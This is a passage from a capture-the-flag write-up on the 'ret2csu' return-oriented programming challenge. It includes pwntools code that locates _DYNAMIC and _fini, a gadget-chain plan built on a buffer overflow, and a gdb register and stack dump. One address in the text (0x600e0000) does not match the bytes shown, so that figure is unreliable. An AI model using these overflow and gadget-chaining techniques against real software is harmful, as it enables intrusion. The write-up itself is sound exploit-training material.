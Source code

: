 We can resolve the address of the DYNAMIC segment using pwntools :)

```python3
In [12]: elf = ELF("./ret2csu")                                                                                                         

In [13]: p64(elf.symbols['_DYNAMIC'])                                                                                                   
Out[13]: b'\x00\x0e`\x00\x00\x00\x00\x00'
```

Note: \` = 0x60 in ascii.  
So, DYNAMIC segment starts at 0x600e0000.  
We can just add 0x48 to start of the \_DYNAMIC segment to get the address of the linked function \_fini

```python
nothing_gadget = p64(elf.symbols['_DYNAMIC'] + (16 * 4 + 8))
```

Okay, so program flow will look a bit like this: 
```
1) overflow buffer
--> 2) gadget1 
--> 3) gadget2
--> 4) nothing gadget
--> 5) continues execution
--> 6) gadget 1
--> 7) pop rdi
```

So we have enough knowledge so far to get us to step 4, but what happens after nothing gadget returns?  

```asm
[----------------------------------registers-----------------------------------]
RAX: 0xb ('\x0b')
RBX: 0x0 
RCX: 0x7ffff7cca0a7 (<__GI___libc_write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0xd00df00dd00df00d 
RSI: 0xcafebabecafebabe 
RDI: 0x0 
RBP: 0x1 
RSP: 0x7fffffffdff8 --> 0x0 
RIP: 0x40068d (<__libc_csu_init+77>:	add    rbx,0x1)
R8 : 0xb ('\x0b')
R9 : 0x2 
R10: 0x7ffff7feeeb0 (pxor   xmm0,xmm0)
R11: 0x246 
R12: 0x600e48 --> 0x4006b4 (<_fini>:	sub    rsp,0x8)
R13: 0x0 
R14: 0xcafebabecafebabe 
R15: 0xd00df00dd00df00d
EFLAGS: 0x216 (carry PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400683 <__libc_csu_init+67>:	mov    rsi,r14
   0x400686 <__libc_csu_init+70>:	mov    edi,r13d
   0x400689 <__libc_csu_init+73>:	call   QWORD PTR [r12+rbx*8]
=> 0x40068d <__libc_csu_init+77>:	add    rbx,0x1
   0x400691 <__libc_csu_init+81>:	cmp    rbp,rbx
   0x400694 <__libc_csu_init+84>:	jne    0x400680 <__libc_csu_init+64>
   0x400696 <__libc_csu_init+86>:	add    rsp,0x8
   0x40069a <__libc_csu_init+90>:	pop    rbx				<------------ start of gadget1
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdff8 --> 0x0 
0008| 0x7fffffffe000 --> 0x0 
0016| 0x7fffffffe008 --> 0x0 
0024| 0x7fffffffe010 --> 0x0 
```